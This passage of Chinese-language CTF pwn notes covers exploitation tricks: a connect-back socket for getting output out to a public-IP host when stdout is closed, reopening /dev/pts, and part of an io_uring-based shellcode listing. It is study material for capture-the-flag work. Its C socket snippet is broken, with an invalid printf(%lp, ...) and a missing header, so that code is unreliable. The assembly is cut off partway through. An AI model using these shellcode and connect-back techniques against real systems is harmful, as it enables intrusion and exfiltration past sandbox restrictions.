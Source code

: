 #### 侧信道攻击

同write替代中的侧信道攻击

#### 远程链接socket&connect

有些程序会调用子进程，子进程对外开放，但是rop写后只能在主进程运行，输出没法显示在远程，或者**close(1)**，那么可以用此方法，此方法需要**公网ip**。

```c
#include <stdlib.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int main() {
    struct sockaddr_in *serv_addr = malloc(sizeof(struct sockaddr_in));
    memset(serv_addr, 0, sizeof(struct sockaddr_in));
    serv_addr->sin_family = AF_INET;
    serv_addr->sin_addr.s_addr = inet_addr("127.0.0.1");   //填入ip地址和端口
    serv_addr->sin_port = htons(8888);
    printf(%lp,*serv_addr);
    return 0;
}
```

#### `open("/dev/pts/?")`

使用`open("/dev/pts/?")`重新打开标准输出

### 超级代码

这个代码利用了下面三个个系统调用

```armasm
9	common	mmap			__x64_sys_mmap
425	common	io_uring_setup		__x64_sys_io_uring_setup
426	common	io_uring_enter		__x64_sys_io_uring_enter
```

汇编如下

```x86asm
push   r15
mov    ecx,0x1e
push   r14
push   r13
xor    r13d,r13d
push   r12
mov    eax,r13d
push   rbp
push   rbx
sub    rsp,0x68
lea    rdi,[rsp-0x10]
lea    rsi,[rsp-0x10]
rep stos DWORD PTR es:[rdi],eax
mov    edi,0x10
mov    eax,0x1a9
syscall
mov    ebx,0x9
mov    r12,rax
mov    r14d,eax
mov    r8d,eax
xor    r9d,r9d
mov    r10d,0x1
mov    edx,0x3
xor    edi,edi
mov    esi,0x1000
mov    eax,ebx
```